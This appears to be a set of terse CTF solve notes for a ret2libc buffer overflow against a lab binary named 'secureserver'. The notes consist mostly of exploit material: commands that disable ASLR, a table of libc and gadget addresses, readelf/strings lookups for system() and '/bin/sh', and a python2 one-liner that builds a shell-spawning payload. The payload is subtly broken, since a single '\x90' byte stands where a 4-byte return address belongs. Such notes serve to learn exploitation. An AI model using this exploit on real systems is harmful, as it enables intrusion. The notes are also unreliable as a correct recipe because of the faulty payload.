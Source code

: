 ### SOLVE
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
set follow-fork-mode child
set follow-fork-mode parent

ldd secureserver


Return to LIBC.
// Locate win-function, control EIP, find jump-point (jmp esp)
```as
main:				0x080491d1	'\xd1\x91\x04\x08'
secret_function:	0x08049186	'\x86\x91\x04\x08'
receive_feedback:	0x08049198	'\x98\x91\x04\x08'
system():			0xf7c4c800	'\x00\xc8\xc4\xf7'
exit():				0xf7c3bc90	'\x90\xbc\xc3\xf7'
jmp esp:			0x08049193	'\x93\x91\x04\x08'
/bin/sh:			0xf7db5faa	'\xaa\x5f\xdb\xf7'
```



0xf7c00000
0xf7c4c800
0xf7db5faa


// Create payload
// [padding + system() + exit() + /bin/sh]
```shell
python2 -c "print('A' * 76 + '\x00\xc8\xc4\xf7' + '\x90' + '\xaa\x5f\xdb\xf7')" > payload
``` 

libc-library => /usr/lib/i386-linux-gnu/libc.so.6
readelf -s /usr/lib/i386-linux-gnu/libc.so.6 | grep system
strings -a -t x /usr/lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"

	
libc_base:						ldd secureserver													0xf7c00000	'\x00\x00\xc0\xf7'
offset libc_base to system: 	readelf -s /usr/lib/i386-linux-gnu/libc.so.6 | grep system			0004c800	'\x00\xc8\x04\x00'
"/bin/sh":						strings -a -t x /usr/lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"	1b5faa		'\xaa\x5f\x1b'




